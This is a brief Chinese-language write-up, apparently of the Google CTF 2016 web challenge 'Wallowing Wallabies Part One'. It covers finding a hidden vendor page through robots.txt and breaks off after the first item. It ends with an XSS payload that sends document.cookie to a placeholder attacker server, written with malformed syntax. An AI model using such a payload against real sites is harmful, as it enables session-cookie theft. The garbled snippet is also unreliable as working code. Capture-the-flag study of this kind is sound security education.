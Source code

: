 # Google CTF 2016 Web

1. Wallowing Wallabies - Part One
    - 题面上可以使用的功能为零，源码里也没有什么切入点。
    - 查看各种套路，发现`robots.txt`
        ```
        User-agent: *
        Disallow: /deep-blue-sea/
        Disallow: /deep-blue-sea/team/
        # Yes, these are alphabet puns :)
        Disallow: /deep-blue-sea/team/characters
        Disallow: /deep-blue-sea/team/paragraphs
        Disallow: /deep-blue-sea/team/lines
        Disallow: /deep-blue-sea/team/runes
        Disallow: /deep-blue-sea/team/vendors
        ```
    - 发现其中`/deep-blue-sea/team/vendors`可以访问，页面内容为：
      > Hello!
      > If you've been directed to this webpage; you have been requested to file out for vendor level access to our system.
      > To request access; please fill out your form, and an admin will review your application as soon as possible.

    - 预计会有XSS漏洞出现，随便点东西提交：
      > Thank you, your request has been received
      > Your message to the admins is as follows:
      > !!! Expecting to find '<script src=' in your input -- please re-read the level challenge.

    - So赤果果的提示，构造playload `<script src="http://yourwebserver?cookie=+'document.cookie'`

2.
